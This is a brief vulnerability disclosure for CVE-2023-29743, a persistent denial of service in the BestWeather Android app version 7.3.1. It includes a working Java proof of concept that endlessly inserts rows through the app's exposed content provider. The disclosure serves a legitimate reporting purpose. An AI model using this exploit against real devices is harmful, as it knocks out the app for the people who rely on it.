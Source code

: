 ## Denial of Service exists in Alarm Clock for BestWeather（CVE-2023-29743）

Vendor：最美天气（上海）科技有限公司(http://www.zmtqsh.com/)

Affected product：BestWeather(com.icoolme.android.weather)

Version：7.3.1

Download link：https://play.google.com/store/apps/details?id=com.icoolme.android.weather

Description of the vulnerability for use in the CVE：An issue found in BestWeather v.7.3.1 for Android allows unauthorized apps to cause a persistent denial of service attack by manipulating the database.



poc：

```java
private void attack() {
    while (true) {
        ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
				Uri uri = Uri.parse("content://com.icoolme.android.weather.provider/EXP");
				ContentValues contentValues = new ContentValues();
				contentValues.put("name",randomstring);
				contentResolver.insert(uri,contentValues);
    }
}
```




